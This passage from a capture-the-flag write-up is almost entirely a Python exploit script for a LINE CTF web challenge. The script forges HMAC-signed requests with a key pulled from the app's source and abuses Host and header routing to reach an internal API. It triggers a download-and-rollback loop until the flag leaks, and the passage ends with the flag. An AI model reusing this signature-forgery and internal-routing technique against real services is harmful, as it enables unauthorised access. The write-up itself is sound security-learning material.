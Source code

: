 ```python
#!/usr/bin/env python3

import hashlib, hmac, json, requests

HOST = 'xxx.xxx.xxx.xxx'

# Pulled from /private/app/main.py @ L21
privateKey = b'let\'sbitcorinparty'

# Pulled from /private/app/main.py @ L61
def integrityKey(dbHash):
  retVal = hashlib.sha512((dbHash).encode('ascii')).hexdigest()
  return retVal

# Pulled from /private/app/main.py @ L152
def sign(query):
  retVal = hmac.new(privateKey, query.encode('ascii'), hashlib.sha512).hexdigest()
  return retVal

if __name__ == '__main__':
  i = 1
  while True:
    print(f'Try #{i}...', end='\r')

    # Get the hash of the current DB
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': 'integrityStatus',
    })
    dbHash = json.loads(response.headers['lang'])['dbhash']

    # Make the API download itself in the backup dir
    query = 'src=http%3A%2F%2Flocalhost%3A5000%2FintegrityStatus'
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': f'download?{query}',
      'Sign': sign(query)
    })

    # Use the name of the downloaded file to trigger a rollback
    query = 'dbhash=integrityStatus'
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': f'rollback?{query}',
      'Sign': sign(query),
      'Key': integrityKey(dbHash)
    })

    # Multiple tries may be needed due to regular backup dir cleanup
    reply = response.headers['lang']
    if 'LINECTF{' in reply:
      print(f'Flag found! {reply}')
      break
    else:
      print(f'Wrong timing, retrying (\'{reply}\')')
      i += 1
```

This challenge had quite a bit of distractions and dead ends built in but in the end, as usual, the working exploit turned out to be conceptually simple.

🏁 __LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}__{:.spoiler}
